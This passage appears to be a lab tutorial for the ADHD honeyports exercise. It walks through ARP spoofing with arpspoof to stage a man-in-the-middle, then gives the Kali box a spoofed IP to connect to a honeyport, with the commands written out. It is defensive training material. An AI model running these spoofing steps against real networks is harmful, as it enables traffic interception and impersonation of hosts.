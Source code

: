 - This protection mechanism is found in `/proc/sys/net/ipv4/conf/all/arp_accept`. A **1** in this file means that **ADHD** is configured to **accept** unsolicited **ARP response**s.  You can set this value by running the following command

```bash
echo 1 > /proc/sys/net/ipv4/conf/all/arp_accept
```

- If our **ADHD machine** (running the **Honeyports**) is at 192.168.1.144 and we want to spoof 192.168.1.1

>[!IMPORTANT]
>
> Your IP will be **different**, use **yours**

- Let's start by performing our **MITM attack**.

```bash
arpspoof -i eth0 -t 192.168.1.144 192.168.1.1 2>/dev/null &
```
```bash
arpspoof -i eth0 -t 192.168.1.1 192.168.1.144 2>/dev/null &
```

- If you want to confirm that the **MITM attack** is working first find the **MAC address** of the **Kali box**.

```bash
ifconfig -a | head -n 1 | awk '{print $5}
```

Output:
<pre>00:0c:29:40:1c:d3</pre>

>[!IMPORTANT]
>
> Your **MAC Address** will be **different**, use **yours**

- Then on the **ADHD machine** run this command to determine the current mapping of **IPs** to **MACs**.

```bash
arp -a
```

- Look to see if the **IP** you are attempting to **spoof** is mapped to the **MAC address** from the previous step.

- Once we have properly performed our **arpspoof** we will move on to assigning a **temporary IP** to the **Kali machine**.

- This will convince the **Kali machine** to send packets as the **spoofed host**.

```bash
ifconfig eth0:0 192.168.1.1 netmask 255.255.255.0 up
```

- The last step is to connect from the **Kali box** to the **ADHD machine** on a **Honeyport**, as `192.168.1.1`

>[!IMPORTANT]
>
> Your IP will be **different**, use **yours**
